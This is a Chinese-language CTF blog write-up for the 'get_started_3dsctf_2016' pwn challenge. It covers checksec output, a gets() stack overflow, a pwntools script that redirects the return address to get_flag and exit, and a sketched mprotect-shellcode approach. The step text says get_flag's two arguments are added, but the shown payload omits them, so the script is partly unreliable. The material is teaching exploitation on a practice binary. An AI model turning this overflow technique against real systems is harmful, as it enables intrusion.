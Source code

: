 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      get_started_3dsctf_2016 WriteUp				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-11-10 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-10.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF
    - PWN
---
```




# get_started_3dsctf_2016 WriteUp

## 考点

- 对栈溢出函数带参数的溢出理解

## 解题内容

1. 使用`checksec`工具查看基本信息：

   ```shell
   ❯ ~/.local/bin/checksec ./get_started_3dsctf_2016
   [*] '/home/bronya/Documents/ctf/pwn/get_started_3dsctf_2016/get_started_3dsctf_2016'
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

   可以看到为32位程序，只开了nx防护。

2. ida工具打开程序，反编译，有主要函数`main`，`get_flag`

   `main`：

   ![main](/img/posts/2023-11-10-get_started_3dsctf_2016_WriteUp/images/main.png)

   `get_flag`：

   ![get_flag](/img/posts/2023-11-10-get_started_3dsctf_2016_WriteUp/images/get_flag.png)

   存在漏洞点为`main`函数中的`gets(v4)`，因此可以通过此进行栈溢出将返回地址改为`get_flag`函数地址，获取flag

3. 在本地测试成功，但是进行远程测试出现问题，发现远程程序崩溃了，应该是因为栈的数据被破坏，导致程序无法完整运行：

   ![远程-有问题](/img/posts/2023-11-10-get_started_3dsctf_2016_WriteUp/images/远程-有问题.png)

4. 考虑在`get_flag`后加上`exit`函数以及`get_flag`所需的两个参数，使其正常完成并退出。

   构造python脚本如下：

   ```python
   from pwn import *
   
   context(arch="i386", log_level="debug")
   p = process("./get_started_3dsctf_2016")
   # p = remote("node4.buuoj.cn", 25523)
   
   get_flag = 0x080489B8
   exit = 0x0804E6A0
   retn = 0x08048A40
   a1 = 0x308CD64F
   a2 = 0x195719D1
   
   # gdb.attach(p, 'b *0x8048A3B')
   payload = flat(b'a'*56, get_flag, exit)
   p.sendline(payload)
   p.interactive()
   ```

5. 成功获取flag

   ![results](/img/posts/2023-11-10-get_started_3dsctf_2016_WriteUp/images/results.png)

6. 另外还有一种思路是程序中存在mprotect函数，可以修改程序中某一段地址的读写执行权限，因此可以将某段bss地址修改，并写入shellcode，令程序跳转到bss地址即可拿到shell。

   